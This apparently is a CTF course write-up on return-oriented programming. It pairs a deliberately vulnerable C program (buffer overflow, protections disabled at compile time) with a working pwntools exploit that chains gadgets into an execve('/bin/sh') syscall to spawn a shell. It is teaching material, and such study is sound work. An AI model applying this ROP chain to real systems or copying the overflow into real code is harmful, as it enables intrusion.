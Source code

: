 ```yaml
---
title: Simple PWN - 0x07(ROP)
tags: [CTF, PWN, eductf]

category: "Security/Course/NTU CS/PWN"
---
```


# Simple PWN - 0x07(ROP)
<!-- more -->
###### tags: `CTF` `PWN` `eductf`

## Background
* This is very similar to normal `BOF`.
* If a sample code that doesn't have a backdoor function and you cannot input a backdoor function as well, then you can use some code segment to merge a shellcode.
* Therefore, the main idea is use some `<operation>;ret` pattern segment to overlap stack.
![](https://imgur.com/YGarADK.png)

## Original Code
```c!=1
#include <stdio.h>
#include <unistd.h>

int main()
{
    setvbuf(stdin, 0, _IONBF, 0)
    setvbuf(stdout, 0, _IONBF, 0);

    char s[0x10];

    printf("Here is your \"/bin/sh\": %p\n", "/bin/sh");
    printf("Give me your ROP: ");
    read(0, s, 0x400);
    
    return 0;
}
```
* At line `11`, `%p` means pointer of `/bin/sh` string.
* Note that, if you establish the code yourself, you must turn off the protection by the command below and use `checksec` to observe the protection. In addition, please use `-static` command to compile library at compile time, so that we can get `ROP gadget` more easily.
    ```bash!
    gcc -o rop rop.c -zexecstack -no-pie -fno-stack-protector -z norelro -static
    ```

## Exploit
* First, we can observe the program has overflow(very important), but has no other backdoor method can access or global variable can write shellcode. Then we can consider to use `ROP gadget` to construct chain.
* Second, we use `ROPgadget` to find suitable gadget
    ```bash!
    $ ROPgadget --multibr --binary rop > rop_gadget
    $ vim rop_gadget
    ```
    ![](https://imgur.com/IzeTvgK.png)
    ![](https://imgur.com/PlA5C8B.png)
    ![](https://imgur.com/zg28Pti.png)
    ![](https://imgur.com/WDS0HUh.png)
    ![reference link](https://imgur.com/dEh7b5n.png)
    * Note that, you may consider that `pop rdx ; pop rbx ; ret` is not what we want. We just want `pop rdx ; ret`. Therefore, we have to push one more value for `pop rbx ;` instruction.
* Then, we can construct our payload:
    ```python!=
    from pwn import *

    context.arch = 'amd64'

    r = process('./rop')

    r.recvuntil('Here is your "/bin/sh": ')
    binsh = int(r.recvline()[:-1], 16)
    info(f"binsh: {hex(binsh)}")

    pop_rdi_ret = 0x401eaf
    pop_rsi_ret = 0x409ede
    pop_rdx_ret = 0x485aeb
    pop_rax_ret = 0x44fcc7
    syscall = 0x401c64
    ```
    * Note that, `r.recvline()[:-1]` is `b'0x498004'` and we must pop to `%rdi` at line `17` below.
* Then we can combine them together using [flat method](https://docs.pwntools.com/en/stable/util/packing.html#pwnlib.util.packing.flat). It'll flat the address with **length 8 bytes**.
    ```python!=16
    ROP = flat(
        pop_rdi_ret, binsh,
        pop_rsi_ret, 0,
        pop_rdx_ret, 0, 0,
        pop_rax_ret, 0x3b,
        syscall,
    )

    gdb.attach(r)
    r.sendafter("Give me your ROP: ", b'a' * 0x18 + ROP)

    r.interactive()
    ```
* Finally, we got shell!!!
    ![](https://imgur.com/dk0Z2mw.png)

## Analysis
* This is totally the same as our hypothesis.
![](https://imgur.com/OjcDNbu.png)
* We can see that all parameters are ready
    ![](https://imgur.com/xXx7HRQ.png)

## Reference
[NTUSTISC - Pwn Basic 3 [2019.03.26]](https://youtu.be/iA4Hrr17ooI?t=1239)
[Pwn week1](https://youtu.be/ktoVQB99Gj4?t=6712)